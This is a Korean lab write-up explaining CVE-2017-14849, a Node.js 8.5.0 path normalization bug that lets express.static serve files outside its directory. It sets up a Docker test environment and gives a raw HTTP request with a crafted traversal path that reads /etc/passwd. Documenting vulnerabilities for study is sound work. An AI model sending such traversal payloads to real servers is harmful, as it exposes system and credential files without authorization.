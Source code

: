 # Node.js 디렉터리 탐색 취약점(CVE-2017-14849)

## 취약점 개요

Node js 8.5.0에서는 `파일 경로 정규화(Path Normalization)` 취약점이 있습니다. 상위 레이어(예: ../../../../../../etc/passwd)로 이동하는 중에 바르지 못한 폴더가 있는 경우 (예: ../../../foo/../../../etc/passwd) 오류가 발생해야 하지만 `파일 경로 정규화(Path Normalization)` 취약점으로 인해 `/etc/passwd`의 결과를 반환하게 됩니다.

Express와 같은 웹 프레임워크는 일반적으로 정적 파일을 제공하기 위해 `express.static()`를 사용합니다. 이러한 함수는 내부적으로 경로 정규화를 수행하면서 디렉터리의 범위를 초과하는지 여부를 확인합니다. 그러나 Node js 8.5.0 버전의 경우 위 버그로 인해 정규화 함수가 잘못된 결과를 반환하고 디렉터리 탐색 취약점이 발생합니다.

해당 버그는 디렉터리를 단순 탐색하는 것 이상의 영향을 미칠 수 있으므로 더 깊이 조사할 필요가 있습니다. 그러나 이 취약점은 Node js 8.6.0에서 수정되었기 때문에 영향의 범위가 제한됩니다.

## 환경 실행

다음의 명령어를 통해 테스트 환경을 구성함

```
docker compose up -d
```

`http://your-ip:3000/`으로 접속할 수 있습니다.
![1](https://github.com/junwonheo/junwonheo.github.io/assets/129061707/5dfcff9a-8a77-48d0-9238-09dc5a6c35ff)

`/static/main.js`에 정적 파일이 존재합니다. 아래와 같은 패킷을 보내겠습니다.

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![2](https://github.com/junwonheo/junwonheo.github.io/assets/129061707/2bc0b8f2-f53f-4693-890a-657f7c378317)
